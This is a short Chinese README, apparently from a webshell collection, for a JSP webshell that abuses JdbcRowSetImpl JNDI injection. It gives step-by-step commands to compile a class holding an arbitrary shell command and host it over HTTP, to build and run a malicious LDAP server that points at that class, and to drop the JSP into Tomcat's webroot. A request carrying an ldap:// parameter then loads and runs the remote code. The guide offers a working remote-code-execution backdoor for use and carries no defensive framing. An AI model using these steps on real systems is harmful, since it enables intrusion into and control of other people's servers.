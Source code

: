 ### JdbcRowSetImpl进行jndi注入的JSP Webshell

因为引入了ldap sdk，所以，需要去maven仓库下载个unboundid-ldapsdk-3.1.1.jar

具体的使用：

1. 修改Calc.java中的cmd局部变量为需要执行的shell命令，然后执行javac Calc.java编译得到Calc.class
2. 把上一步得到的Calc.class放到webshell运行环境可访问的http服务器中
3. 把LdapServer.java、OperationInterceptor.java、unboundid-ldapsdk-3.1.1.jar放到同一目录下，执行编译javac -cp unboundid-ldapsdk-3.1.1.jar:. LdapServer.java
4. 执行jar cvf LdapServer.jar LdapServer.class OperationInterceptor.class打包成LdapServer.jar
5. 把LdapServer.jar、unboundid-ldapsdk-3.1.1.jar放到同一目录下，java -cp LdapServer.jar:unboundid-ldapsdk-3.1.1.jar LdapServer 12345 "http://127.0.0.1:80/#Calc",其中12345为ldap server的端口，"http://127.0.0.1:80/#Calc"中的127.0.0.1:80为上一步中可访问的http服务器，因为Calc.class存放于http服务器根目录，所以为Calc（Calc存放在http服务器的文件有后缀.class，但是参数不需要.class）
6. 把jsp放到tomcat的webapps/ROOT/中，访问http://127.0.0.1:8080/13.jsp?threedr3am=ldap://127.0.0.1:12345，threedr3am参数即为刚刚上一步启动的ldap server的url